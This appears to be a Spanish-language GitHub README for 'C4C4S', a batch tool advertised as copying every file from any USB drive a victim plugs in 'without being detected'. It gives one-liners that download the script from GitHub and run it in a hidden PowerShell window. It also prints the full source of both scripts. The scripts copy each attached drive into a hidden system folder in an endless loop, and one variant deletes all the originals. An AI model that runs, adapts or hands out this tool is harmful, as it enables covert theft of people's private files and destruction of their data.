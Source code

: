 # C4C4S.bat / C4C4S.bat
<b>Esta es una herramienta para copiar todos los archivos de una memoria externa sin ser detectado.</b><br><br>
Escucha cuando se conecta un dispositivo de almacenamiento, despues copia los archivos del dispositivo conectado y tienes la opción de borrar los archivos despues de ser copiados.

<h2>Para copiar archivos de USB borrando los archivos de la memoria al finalizar, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4s.bat','c4s.bat'); powershell -windowstyle hidden -command cmd /c call c4s.bat;
</pre>

<h2>Para copiar archivos de USB sin modificar o borrar los archivos origen, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4.bat','c4.bat'); powershell -windowstyle hidden -command cmd /c call c4.bat;
</pre>

<h3>Para ver los archivos copiados...</h3>
<ul>
  <li>Abre una ventana del CMD.</li>
  <li>Ubicate en la carpeta: <b>C:\Users\%USERNAME%\Desktop\NCopy</b></li>
  <li>Abre la carpeta con: <b>start .</b></li>
</ul>

<h2>Codigo fuente</h2>

<h3>C4s :</h3>
<p><b>(Copia todos los archivos de memoria a "NCopy" en Escritorio y borra los originales)</b></p>
<pre>
<code>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
   DEL %%a"*" /s /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</code>
</pre>

<h3>C4 :</h3>
<p><b>(Copia todos los archivos de memoria a "NCopy" en Escritorio sin editar los archivos originales)</b></p>
<pre>
<code>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</code>
</pre>
